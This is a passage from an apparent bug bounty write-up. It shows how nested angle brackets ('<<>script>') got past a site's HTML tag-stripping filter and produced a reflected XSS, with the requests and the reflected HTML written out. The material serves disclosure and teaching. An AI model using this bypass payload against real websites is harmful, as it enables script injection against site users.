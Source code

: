 and the response contained the following HTML code

{% include codeHeader.html %}
```html
<meta name="title" content="Resultados asociados a la palabra: 'bugbountytest1'">
```

so the sanitization removes all the content between the < and > characters, both characters included, and not only the content that matches with some keywords. After that I wondered if nesting the < and > characters would give a different result so I sent several requests nesting the < and > characters but the most revealing of all was

{% include codeHeader.html %}
```html
https://www.example.com/?vuln-param=bugbountytest1'"><<>bugbountytest2>
```

whose response contained the following HTML code

{% include codeHeader.html %}
```html
<meta name="title" content="Resultados asociados a la palabra: 'bugbountytest1'">
<bugbountytest2>
```

This result yields a very clear way of injecting javascript code in the response using the following request

{% include codeHeader.html %}
```html
https://www.example.com/?vuln-param=bugbountytest1'"><<>script>alert(1)<<>/script>
```

The response contained the following HTML code

{% include codeHeader.html %}
```html
<meta name="title" content="Resultados asociados a la palabra: 'bugbountytest1'">
<script>alert(1)</script>
```

and the reflected XSS was reproduced as you can see in the following screenshot

![](/assets/images/2022-09-20-reflected-xss-bypassing-html-tag-removal-sanitization/xss-alert.png)
